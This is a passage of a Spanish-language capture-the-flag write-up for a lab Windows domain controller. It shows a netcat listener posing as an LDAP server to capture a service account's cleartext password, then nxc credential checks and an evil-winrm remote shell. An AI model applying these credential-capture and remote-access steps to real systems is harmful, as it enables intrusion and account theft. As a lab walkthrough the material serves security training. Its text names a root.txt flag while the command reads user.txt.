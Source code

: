 Comprobamos que se ha recibido las credenciales almacenadas del usuario `svc_ldap` correctamente, esto debido a que hemos logrado modificar el servidor LDAP por el nuestro propio y el usuario almacenadado en la configuración del `PWM` se ha autenticado en nuestro servidor y no en el del DC.

```bash
❯ nc -nlvp 389
listening on [any] 389 ...
connect to [10.10.16.3] from (UNKNOWN) [10.10.11.222] 64084
0Y`T;CN=svc_ldap,OU=Service Accounts,OU=CORP,DC=authority,DC=htb�lDaP_1n_th3_cle4r!
```

Obtenemos el mismo resultado capturando el protocolo `LDAP` a través de `Wireshark`.

<figure><img src="../../.gitbook/assets/5218_vmware_BlHzr3m05W.png" alt=""><figcaption></figcaption></figure>

### Abusing WinRM - EvilWinRM

Verificamos que las credenciales obtenidas del usuario `svc_ldap` son válidas y también que nos podemos conectar remotamente al Domain Controller.

Al acceder a través de `evil-winrm` al DC, hemos logrado acceder y obtener la flag **root.txt**.

```bash
❯ nxc smb 10.10.11.222 -u 'svc_ldap' -p 'lDaP_1n_th3_cle4r!'
SMB         10.10.11.222    445    AUTHORITY        [*] Windows 10 / Server 2019 Build 17763 x64 (name:AUTHORITY) (domain:authority.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.222    445    AUTHORITY        [+] authority.htb\svc_ldap:lDaP_1n_th3_cle4r! 
❯ nxc winrm 10.10.11.222 -u 'svc_ldap' -p 'lDaP_1n_th3_cle4r!'
WINRM       10.10.11.222    5985   AUTHORITY        [*] Windows 10 / Server 2019 Build 17763 (name:AUTHORITY) (domain:authority.htb)
WINRM       10.10.11.222    5985   AUTHORITY        [+] authority.htb\svc_ldap:lDaP_1n_th3_cle4r! (Pwn3d!)
❯ evil-winrm -i 10.10.11.222 -u 'svc_ldap' -p 'lDaP_1n_th3_cle4r!'
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc_ldap\Documents> type ../Desktop/user.txt
8af7e606************************
```
